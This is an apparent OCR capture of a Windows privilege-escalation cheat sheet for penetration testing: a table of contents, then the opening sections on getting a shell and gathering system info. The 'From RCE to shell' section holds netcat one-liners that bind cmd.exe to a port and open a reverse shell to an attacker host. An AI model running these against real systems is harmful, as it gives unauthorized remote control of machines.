 ﻿Windows elevation of privileges ToC

* [From RCE to shell](#From RCE to shell)
* [EoP 0: System info](#EoP 0: System info)
* [EoP 1: Incorrect permissions in services](#EoP 1: Incorrect permissions in services)
* [EoP 2: Find unquoted paths](#EoP 2: Find unquoted paths)
* [EoP 3: ClearText passwords (quick hits)](#EoP 3: ClearText passwords (quick hits))
* [EoP 4: Pass the hash](#EoP 4: Pass the hash)
* [EoP 5: Services only available from loopback](#EoP 5: Services only available from loopback)
* [EoP 6: AlwaysInstallElevated](#EoP 6: AlwaysInstallElevated)
* [EoP 7: Vulnerable drivers](#EoP 7: Vulnerable drivers)
* [EoP 8: Kernel vulnerabilities](#EoP 8: Kernel vulnerabilities)
* [Windows version map](#Windows version map)
* [EoP 9: Automated tools](#EoP 9: Automated tools)
* [Useful commands](#Useful commands)
* [Transferring files](#Transferring files)
* [Metasploit](#Metasploit)
* [Useful exploits](#Useful exploits)
* [Windows MS11-080](#Windows MS11-080)
* [From admin to system](#From admin to system)
* [AV bypass](#AV bypass)
* [Print proof](#Print proof)
* [Access Check](#Access Check)
* [Windows hashes](#Windows hashes)
* [PoCs](#PoCs)

From RCE to shell

Getting a shell in limited interpreters:

$ system("start cmd.exe /k $cmd")

Bind cmd to a port:

$ nc.exe -Lp 31337 -vv -e cmd.exe

Reverse shell:

$ nc.exe attacker\_ip attacker\_port -e cmd.exe

EoP 0: System info

Finding installed software, running processes, bind ports, and OS version might be critical to identify the right EoP vector.

Find installed patches, architecture, OS version

$ systeminfo

Get exact OS version

$ type C:/Windows/system32/eula.txt

Hostname.

$ hostname

Find current user.
